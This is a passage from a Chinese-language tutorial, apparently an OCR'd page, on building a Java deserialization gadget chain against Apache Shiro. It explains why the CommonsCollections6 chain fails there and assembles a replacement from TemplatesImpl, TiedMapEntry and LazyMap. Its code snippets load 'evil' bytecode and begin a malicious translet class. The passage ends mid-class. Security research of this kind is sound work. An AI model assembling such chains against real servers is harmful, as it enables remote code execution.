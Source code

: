 都调用了`forName`来寻找类，但子类用的是` org.apache.shiro.util.ClassUtils#forName`
父类用的是Java原生的` Class.forName`

`[Lorg.apache.commons.collections.Transformer;`即`org.apache.commons.collections.Transformer`
由于涉及到Tomcat对类加载的处理逻辑，这里不深入探究
结论是这样的：

> 如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误

由于CC6用到了Transformer数组，不是Java自身的数组，导致这条链无法利用

# 0x03 CommonsCollectionsShiro

接下来就要利用到`TemplatesImpl`来动态加载恶意字节码了

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][] {"evilbytescode"});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
obj.newTransformer();
```

CC6中有一个类`TiedMapEntry`，构造器接收Map和Object key
`getValue`方法调用了map的get方法，传入key

```java
public TiedMapEntry(Map map, Object key) {
    super();
    this.map = map;
    this.key = key;
}
public Object getValue() {
    return map.get(key);
}
```

还记得CC1中的LazyMap，懒加载方式，在调用其get方法时会触发transform

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
        return map.get(key);
}
```

可以看到key是会被传入`transform`方法的，那我们就根本不需要Transformer数组的第一个ConstantTransformer来传递对象，这边key可以直接传入，我们可以直接利用InvokeTransformer

```java
// Evil.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

```